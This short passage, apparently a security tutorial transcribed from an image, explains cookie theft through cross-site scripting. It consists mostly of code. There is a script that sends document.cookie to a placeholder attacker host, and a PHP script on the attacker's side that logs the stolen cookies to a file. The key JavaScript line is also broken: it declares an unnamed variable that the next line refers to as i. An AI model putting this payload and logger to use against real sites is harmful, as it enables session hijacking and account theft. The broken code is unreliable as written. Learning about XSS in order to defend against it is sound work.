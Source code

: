 * JavaScript can steal cookies if they do not have the **HttpOnly flag** enabled; this means that an XSS attack can
be used to steal the cookies.

`<script>alert(document.cookie)</script>`

with the following code,you can send cookies content to an attacker-controlled site.

```
<script>
var = new Image();
i.src = "http://ip_del_atacante/log.php?q="+document.cookie;
</script>
```
The scripts generate an image object and points its `src` to script on the attacker's server(attacker.site)

The `log.php` script saves the cookie in a text file on the attacker.site
```
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename,'a');
$cookie=$_GET['q'];
fwrite($fp,$cookie);
fclose($fp);
?>
```
